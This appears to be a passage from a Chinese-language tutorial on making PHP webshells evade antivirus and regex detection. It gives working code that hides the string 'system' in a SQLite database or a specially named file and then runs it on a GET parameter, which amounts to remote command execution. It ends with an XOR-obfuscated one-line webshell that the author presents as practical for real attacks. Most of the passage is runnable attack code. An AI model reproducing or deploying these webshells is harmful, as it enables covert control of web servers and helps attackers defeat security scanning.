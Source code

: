 ### 11.2 读取数据库

可以通过 `file_put_contents` 文件写入函数写入一个 Sqlite 的数据库

```plain
$datatest = "[文件的 base64 编码]";
file_put_contents('./要写入的文件名', base64_decode($datatest));
```

然后通过 PHP 读取数据库内容提取高危函数，从而达到 WebShell 免杀效果

```plain
$path = "数据库文件名"

$db = new PDO("sqlite:" . $path);

$sql_stmt = $db->prepare('select * from test where name="system"');
$sql_stmt->execute();

$f = substr($sql_stmt->queryString, -7, 6);
$f($_GET['b']);
```

### 11.3 读取目录

`FilesystemIterator` 是一个迭代器，可以获取到目标目录下的所有文件信息

```plain
public FilesystemIterator::next ( void ) : void
```

可以尝试使用 `file_put_contents` 写入一个名为 `system.aabyss` 的空文件，然后遍历目录拿到字符串 `system` ，成功 ByPass

```plain
$fi = new FilesystemIterator(dirname(__FILE__));
$f = '';
foreach($fi as $i){
    if (substr($i->__toString(), -6,6)=='aabyss')  //判断后缀名为.aabyss 的文件（其他特殊后缀也行）
        $f = substr($i->__toString(), -13,6);      //从 system.aabyss 提取出 system 高危函数
}
$f($_GET['b']);
```

为什么要写入为 `system.aabyss` 这个文件名呢，因为特殊后缀能让代码快速锁定文件，不至于提取文件名提取到其他文件了

## 12# 多姿势配合免杀

将以上提到的相关姿势，进行多种配合嵌套，实现免杀效果

### 12.1 样例一

刚开始看这个样例我还是挺惊讶的，仔细分析了一波，发现还是挺简单的，但重在思路

这个样例使用了异或 + 变换参数的手法，成功规避了正则匹配式，具有实战意义

```plain
<?=~$_='$<>/'^'{{{{';@${$_}[_](@${$_}[__]);
```
